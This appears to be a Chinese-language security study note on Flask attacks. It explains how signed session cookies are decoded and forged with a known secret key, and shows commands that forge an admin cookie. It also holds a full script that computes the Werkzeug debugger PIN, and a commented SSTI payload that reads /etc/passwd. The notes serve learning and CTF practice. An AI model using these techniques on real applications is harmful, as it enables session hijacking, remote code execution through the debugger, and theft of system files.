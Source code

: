 [TOC]

### session 信息泄露 & 伪造

[SecMap - Flask - Tr0y's Blog](https://www.tr0y.wang/2022/05/16/SecMap-flask)

session 的作用大家都比较熟悉了，就不用介绍了。

它的常见实现形式是当用户发起一个请求的时候，后端会检查该请求中是否包含 sessionid，如果没有则会创造一个叫 sessionid 的 cookie，用于区分不同的 session。sessionid 返回给浏览器，并将 sessionid 保存到服务器的内存里面；当已经有了 sessionid，服务端会检查找到与该 sessionid 相匹配的信息直接用。

所以显而易见，session 和 sessionid 都是后端生成的。且由于 session 是后端识别不同用户的重要依据，而 sessionid 又是识别 session 的唯一依据，所以 session 一般都保存在服务端避免被轻易窃取，只返回随机生成的 sessionid 给客户端。对于攻击者来说，假设需要冒充其他用户，那么必须能够猜到其他用户的 sessionid，这是比较困难的。

对于 flask 来说，它的 session 不是保存到内存里的，而是直接把整个 session 都塞到 cookie 里返回给客户端。那么这会导致一个问题，如果我可以直接按照格式生成一个 session 放在 cookie 里，那么就可以达到欺骗后端的效果。

阅读源码可知，flask 生成 session 的时候会进行序列化，主要有以下几个步骤：

1. 用 `json.dumps` 将对象转换成 json 字符串
2. 如果第一步的结果可以被压缩，则用 zlib 库进行压缩
3. 进行 base64 编码
4. 通过 secret_key 和 hmac 算法（flask 这里的 hmac 默认用 sha1 进行 hash，还多了一个 salt，默认是 `cookie-session`）对结果进行签名，将签名附在结果后面（用 `.` 拼接）。如果第二步有压缩的话，结果的开头会加上 `.` 标记。

可以看到，最后一步解决了用户篡改 session 的安全问题，因为在不知道 secret_key 的情况下，是无法伪造签名的。

所以这会直接导致 2 个可能的安全问题：

1. 数字签名的作用是防篡改，没有保密的作用。所以 flask 的 session 解开之后可以直接看到明文信息，可能会导致数据泄露
2. 如果知道 secret_key 那么可以伪造任意有效的 session（这个说法并不完全准确）

>[noraj/flask-session-cookie-manager: :cookie: Flask Session Cookie Decoder/Encoder (github.com)](https://github.com/noraj/flask-session-cookie-manager)

```python
from flask import Flask, session


app = Flask(__name__)
app.secret_key = 'wi1shu'

@app.route('/')
def hello():
    if session.get("user", None):
        user = session.get("user", None)
    else:
        session['user'] = user = 'user'
    return f'Welcome, {user}!'


app.run(debug=True, port=50001)
```

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20231210163520237.png)

session为`eyJ1c2VyIjoidXNlciJ9.ZXV4OA.63R_94KNDsPsTIwGayzQBi6B2y4`，可以通过flask-session-cookie-manager-master将其解码或者自行进行base64解码

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20231210163933696.png)

>`URLSafeTimedSerializer` 是 Flask-WTF 库中的一个类，用于生成和验证包含时间戳的 URL 安全的序列化（serialized）令牌。它主要用于在 Web 应用中处理安全性相关的功能，例如生成带有时效性的重置密码链接或身份验证令牌。
>
>`URLSafeTimedSerializer` 的作用：
>
>1. **生成 URL 安全的令牌：** 通过将数据序列化并附加时间戳，生成一个 URL 安全的字符串令牌。这个令牌可以包含一些信息（如用户 ID、操作类型等），并且由于是 URL 安全的，可以方便地用于构建重置密码链接或其他包含敏感信息的 URL。
>2. **验证令牌的有效性和时效性：** 可以通过令牌的解析来验证令牌的有效性和时效性。这有助于确保令牌在一段时间后过期，从而提高安全性。一旦令牌过期，就不能再被验证。
>
>```python
>from flask import Flask
>from itsdangerous import URLSafeTimedSerializer
>
>app = Flask(__name__)
>app.config['SECRET_KEY'] = 'wi1shu'
>
>serializer = URLSafeTimedSerializer(app.config['SECRET_KEY'])
>
># 生成令牌
>user_id = 123
>token = serializer.dumps(user_id, salt='reset-password')
>
># 验证令牌
>try:
>    data = serializer.loads(token, salt='reset-password', max_age=3600)  # 令牌有效期为 1 小时
>    print(f"Valid token. User ID: {data}")
>except:
>    print("Invalid or expired token.")
>```

可利用URLSafeTimedSerializer进行解码与编码，也可以利用flask-session-cookie-manager-master

```python
from itsdangerous import URLSafeTimedSerializer, base64_decode, encoding

session = "eyJ1c2VyIjoidXNlciJ9.ZXV4OA.63R_94KNDsPsTIwGayzQBi6B2y4"
session_list = session.split(".")

print(base64_decode(session_list[0]))
# b'{"user":"user"}'

print(base64_decode(session_list[1]))
# b'eux8'

# 验证session
print(URLSafeTimedSerializer('wi1shu',
                             salt="cookie-session", # 默认值
                             signer_kwargs={"key_derivation": "hmac"}
                             ).loads_unsafe(session))
# (True, {'user': 'user'})

# 生成session
print(URLSafeTimedSerializer('wi1shu',
                             salt="cookie-session",  # 默认
                             signer_kwargs={"key_derivation": "hmac"}
                             ).dumps({'user': 'admin'}))
# eyJ1c2VyIjoiYWRtaW4ifQ.ZXV76w.jvG0kY94ZYQ2fVYDnwebKFD4Ny8
```

```
利用flask-session-cookie-manager-master
python flask_session_cookie_manager3.py decode -c eyJ1c2VyIjoidXNlciJ9.ZXV4OA.63R_94KNDsPsTIwGayzQBi6B2y4
b'{"user":"user"}'

python flask_session_cookie_manager3.py decode -c eyJ1c2VyIjoidXNlciJ9.ZXV4OA.63R_94KNDsPsTIwGayzQBi6B2y4 -s wi1shu
{'user': 'user'}

python flask_session_cookie_manager3.py encode -t "{'user':'admin'}" -s wi1shu
eyJ1c2VyIjoiYWRtaW4ifQ.ZXV8ZA.8JmyoQrizHyJrk1TL84S1xIqDgs
```



### pin码伪造

pin码计算脚本

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'www',  # flask执⾏whoami获取
    'flask.app',  # modname，linux基本上都是这个，mac有所不同
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/dist-packages/flask/app.py'  # 可以通过debug报错的⻚⾯观察到。
]
# "".__class__.__bases__[0].__subclasses__()[279]('cat+/etc/passwd',shell=True,stdout=-1).communicate()[0].strip()
private_bits = [
    '2485377892354',  # ssti获取/sys/class/net/eth0/address
    '6079fc23-7220-4a30-aab3-c0a7a4f5fb62ea7476749876bc8a6302ce91efe1a0461e74a1778f0b9d516318fc5a032036e1'
    # ssti获取/proc/sys/kernel/random/boot_id + /proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b'pinsalt')
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```